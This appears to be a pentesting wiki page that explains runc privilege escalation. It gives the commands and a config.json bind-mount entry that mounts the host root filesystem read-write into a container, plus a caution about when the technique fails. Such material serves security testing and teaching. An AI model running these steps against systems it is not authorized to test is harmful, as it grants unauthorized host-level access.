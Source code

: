 # RunC Privilege Escalation

## Basic information

If you want to learn more about **runc** check the following page:

[[../../network-services-pentesting/2375-pentesting-docker.md]]

## PE

If you find that `runc` is installed in the host you may be able to **run a container mounting the root / folder of the host**.

```bash
runc -help #Get help and see if runc is intalled
runc spec #This will create the config.json file in your current folder

Inside the "mounts" section of the create config.json add the following lines:
{
    "type": "bind",
    "source": "/",
    "destination": "/",
    "options": [
        "rbind",
        "rw",
        "rprivate"
    ]
},

#Once you have modified the config.json file, create the folder rootfs in the same directory
mkdir rootfs

# Finally, start the container
# The root folder is the one from the host
runc run demo
```

> [!CAUTION]
> This won't always work as the default operation of runc is to run as root, so running it as an unprivileged user simply cannot work (unless you have a rootless configuration). Making a rootless configuration the default isn't generally a good idea because there are quite a few restrictions inside rootless containers that don't apply outside rootless containers.

